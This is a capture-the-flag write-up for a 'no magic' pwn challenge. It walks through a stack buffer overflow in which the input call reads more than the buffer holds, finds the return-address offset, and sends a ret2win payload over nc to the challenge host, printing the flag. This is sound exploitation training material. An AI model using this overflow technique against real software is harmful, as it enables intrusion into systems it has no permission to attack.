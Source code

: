 # There's no such thing as magic

I guess you can still pwn me without magic...
I've been told my code should be safe now. Fortunately I didn't have to change much.

```
nc ctf.wackattack.eu 5001
```

[⬇️ no-magic.tgz](./no-magic.tgz)

# Writeup

This binary cointains another stack-buffer overlow because the buffer size is 100 bytes but the fgets allows to insert 255 (0x100) bytes. I found out when it was crashing and I was now able to overwrite the return address.

```bash
$ python3 -c 'print("A"*256)' | ./no_magic 
I have selected a playing card, there's no way you will guess what it is!
Enter your guess: You guessed AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, the secret card was the ... joker (hah)
Segmentation fault (core dumped)
```

Gave this in dmesg:

![alt text](image.png)

Then I did adjust the number until it did not crash which was the magic number 72. Found the address for the win function

```bash
$ nm ./no_magic | grep win
0000000000401196 T win
```

Then we send the payload:

```bash
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x96\x11\x40\x00\x00\x00\x00\x00\n")' | nc ctf.wackattack.eu 5001
I have selected a playing card, there's no way you will guess what it is!
Enter your guess: You guessed AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@, the secret card was the ... joker (hah)
wack{y0ur3_h4rry_p0tt3r??!?}
```

# Flag

```
wack{y0ur3_h4rry_p0tt3r??!?}
```